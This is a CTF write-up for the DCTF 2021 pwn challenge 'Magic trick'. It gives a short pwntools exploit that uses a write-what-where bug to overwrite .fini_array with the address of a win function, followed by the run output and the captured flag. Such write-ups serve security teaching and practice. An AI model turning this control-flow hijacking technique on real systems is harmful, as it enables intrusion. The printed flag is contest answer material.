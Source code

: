 # DCTF 2021

## Magic trick

> 300
> 
> How about a magic trick? 
> 
> `nc dctf-chall-magic-trick.westeurope.azurecontainer.io 7481`
>
> [magic\_trick](magic_trick)

Tags: _pwn_ _x86-64_ _write-what-where_


## Summary

More like _old trick_.  This is identical to [mindfield](https://github.com/datajerk/ctf-write-ups/tree/master/cyberapocalypsectf2021/mindfield) from 3 weeks back, so read that [writeup](https://github.com/datajerk/ctf-write-ups/tree/master/cyberapocalypsectf2021/mindfield).

> This is why I minimize hardcoded values in my writeups; took me 30 seconds to solve with minor modifications to an existing solve.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./magic_trick')

if args.REMOTE:
    p = remote('dctf-chall-magic-trick.westeurope.azurecontainer.io', 7481)
else:
    p = process(binary.path)

p.sendlineafter('write\n', str(binary.sym.win))
p.sendlineafter('it\n', str(binary.get_section_by_name('.fini_array').header.sh_addr))
print(p.recvuntil('}').decode())
```

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/dctf2021/magic_trick/magic_trick'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to dctf-chall-magic-trick.westeurope.azurecontainer.io on port 7481: Done
thanks
You are a real magician
dctf{1_L1k3_M4G1c}
```
